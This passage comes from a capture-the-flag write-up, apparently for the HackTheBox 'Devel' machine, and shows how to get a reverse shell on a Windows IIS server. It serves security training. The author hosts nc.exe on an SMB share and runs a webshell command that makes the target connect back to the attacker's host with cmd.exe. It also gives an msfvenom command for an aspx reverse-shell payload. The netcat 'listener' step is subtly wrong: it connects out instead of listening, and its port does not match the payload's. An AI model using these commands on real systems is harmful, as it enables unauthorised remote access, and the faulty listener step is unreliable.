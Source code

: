 On a Windows host, I use `smbserver.py` to transfer files back and forth. So, I'll make a directory named `smb`, copy `netcat (nc.exe)` into it.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Devel]
└─$ mkdir smb  
                                                                                                                                                                                                                                                                                                                            
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Devel]
└─$ locate nc.exe
/usr/share/windows-resources/binaries/nc.exe
/usr/share/wordlists/SecLists-master/Web-Shells/FuzzDB/nc.exe
                                                                                                                                                                                                                                                                                                                            
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Devel]
└─$ cp /usr/share/wordlists/SecLists-master/Web-Shells/FuzzDB/nc.exe smb
```

Now, I used `smb server` and pass this to the website, and turn on `netcat` listener to get back a shell

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Devel]
└─$ smbserver.py share smb
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Starting `netcat` listener.
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-Boxes/Devel]
└─$ nc 10.10.10.5 4444
```

And I entered the following commands into the webshell.
```
\\10.10.16.2\share\nc.exe -e cmd.exe 10.10.16.2 443
```

And I get a shell on my listener:
```
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web

c:\windows\system32\inetsrv>
```

## Alternate way to get a shell
You can also use `msfvenom` to generate the `aspx` payload using the following command:

```
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=Your IP LPORT=4444 -o reverse-shell.aspx
```
